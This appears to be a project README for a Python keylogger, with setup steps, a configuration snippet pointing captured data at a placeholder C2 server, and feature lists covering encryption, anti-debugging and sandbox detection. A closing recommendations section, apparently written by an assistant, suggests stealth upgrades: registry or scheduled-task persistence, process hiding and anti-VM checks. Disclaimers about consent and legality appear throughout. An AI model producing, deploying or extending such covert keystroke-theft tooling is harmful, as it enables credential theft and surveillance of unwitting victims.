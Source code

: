 markdown

# Keylogger Application

This is a secure keylogger implementation with encryption and remote logging capabilities.

## Features
- Keystroke logging with special key handling
- AES-256 encryption of all captured data
- Secure transmission to C2 server
- Anti-debugging and sandbox detection
- Cross-platform support (Windows/Linux/macOS)

## Installation
1. Clone the repository:
   ```bash
   git clone https://github.com/JackDonwel/keylogger.git
   cd keylogger

    Create and activate virtual environment:
    bash

python -m venv .venv
source .venv/bin/activate  # Linux/macOS
.venv\Scripts\activate    # Windows

Install dependencies:
bash

    pip install -r requirements.txt

Configuration

Edit keylogger.py with your settings:
python

C2_SERVER = "http://your-real-c2-server.com/log"  # Replace with actual endpoint
KEY = b"YourSecureKey123456"  # 16/24/32 byte AES key
IV = b"SecureInitVector"     # 16-byte initialization vector

Usage
bash

python keylogger.py

The program will:

    Start logging keystrokes to temporary storage

    Encrypt all captured data

    Periodically send encrypted logs to C2 server

    Run anti-debug checks

To stop: Press Ctrl+C
Security Features

    AES-CBC mode encryption with PKCS7 padding

    Base64 encoding for safe transmission

    Encrypted local storage

    Debugger detection (Windows)

    Daemonized logging thread

Important Notes

    🔒 Change the default KEY and IV values before use

    ⚠️ Only use on systems where you have explicit permission

    ⚠️ Keylogging without consent is illegal in most jurisdictions

    🔐 Use HTTPS for C2 communication in production

Legal Disclaimer

This software is provided for educational purposes only. The developer assumes no liability for any misuse of this tool. Always obtain proper authorization before monitoring any system.
text


### Key Files in Project:

keylogger/
├── .venv/ # Virtual environment
├── keylogger.py # Main application
├── requirements.txt # Dependencies
└── README.md # Project documentation
text


### Important Recommendations:
1. **Security Enhancements**:
   - Generate random keys using `os.urandom(16)` instead of hardcoded values
   - Implement HMAC for message authentication
   - Add SSL certificate verification for C2 communication

2. **Stealth Improvements**:
   - Add persistence mechanism (registry/scheduled tasks)
   - Implement process hiding techniques
   - Add more anti-VM checks

3. **Ethical Considerations**:
   - Only use for authorized security testing
   - Implement proper access controls
   - Include conspicuous notice in production use

4. **To Run**:
   ```bash
   # After installing dependencies
   python keylogger.py

Remember to always use this tool ethically and legally. Monitoring users without explicit consent is illegal in most countries.
